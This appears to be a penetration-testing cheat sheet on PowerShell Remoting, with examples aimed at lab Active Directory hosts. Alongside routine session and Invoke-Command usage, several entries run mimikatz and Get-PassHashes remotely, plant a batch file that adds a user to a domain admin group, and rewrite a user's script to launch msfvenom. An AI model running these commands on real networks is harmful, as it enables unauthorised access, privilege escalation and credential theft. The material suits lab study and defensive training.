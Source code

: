# PowerShell Remoting 

## Connect to a PS-Session of a remote user
```powershell
Enter-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

## Execute Stateful commands using Enter-PSSession ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> exit

Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> proc
Will list current process
```

## Execute Stateful commands using Invoke-Command ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

## Display allowed commands we can execute on remote machine
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {get-command}
```

## Write File using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

## Edit file using ScriptBlock
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\msfvenom.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

## Command execution using command and ScriptBlock
```powershell
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -command {whoami}
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -command {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {whoami}
```

## File execution using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
```

## File execution using FilePath
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath "C:\temp\mimikatz.exe"
```

## Language Mode
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

## Execute locally loaded function on the remote machines
Example : **Hello.ps1**
```powershell
function hello
{
Write-Output "Hello from the function"
}
```
> Now we can load the function on our machine
```powershell
. .\Hello.ps1
```
> Now we can execute the locally loaded functions 
```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

## Directly load function on the remote machines using FilePath
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> hello
Hello from the function
```
